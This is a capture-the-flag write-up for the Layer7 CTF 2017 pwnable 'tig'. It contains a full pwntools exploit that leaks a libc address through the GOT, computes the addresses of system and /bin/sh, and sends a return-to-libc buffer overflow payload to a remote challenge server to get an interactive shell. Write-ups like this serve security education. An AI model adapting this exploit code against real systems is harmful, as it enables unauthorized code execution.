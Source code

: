 # Layer7 CTF 2017 pwnable tig

## Overview

## Analysis

![main](main.PNG)

It changes the value twice using the offset, and read 400 characters from stdin.

After read, It checks the zero in buffer, and close `stdout`.

So, I used two methods.

1. I used change_offset function to input the bytes that include zero.
2. I used the `exec 1>&2` command to change the output to `stderr`.

## How to solve

![libc](Libc_leak.PNG)

libc is `libc6-i386_2.23-0ubuntu9_amd64`.

```python
from pwn import *

# p = process("./tig")
p = remote("junan.io", 7468)


def print_recv(until = None):
    if until is None:
        print p.recv()
    else:
        print p.recvuntil(until)

e = ELF("./tig")

# set args
print_recv()
p.sendline("4 99")

print_recv()
p.sendline(str(e.got["puts"]) + " 98")

print_recv()
p.sendline("2 97")

# command rtl
# 0x8048783 is 
print_recv()
p.send("A"*276 + p32(e.plt['write']) + p32(0x8048783))

# get puts real address
print_recv("is stdout still available?\n")
puts = u32(p.recv(4))

print("[*] puts is on " + hex(puts))

# calculate address
# libc6-i386_2.23-0ubuntu9_amd64
base_offset = puts - 0x5f140
system = base_offset + 0x3a940
binsh = base_offset + 0x15900b

print("[*] system addres is on " + hex(system))
print("[*] /bin/sh is on " + hex(binsh))

# dummy
p.sendline("1 2")
p.sendline("3 4")
p.sendline("5 6")

# send payload
p.sendline("A"*276 + p32(system) + "AAAA" + p32(binsh))

print_recv("is stdout still available?\n")

# set ouput to stderr
p.sendline("exec 1>&2")

# fun!
p.interactive()
```

## Flag

![Solve](Solve.PNG)

Flag is `flag{rewritingRO_P_P4yLoad_with_oob_write_func71on}`.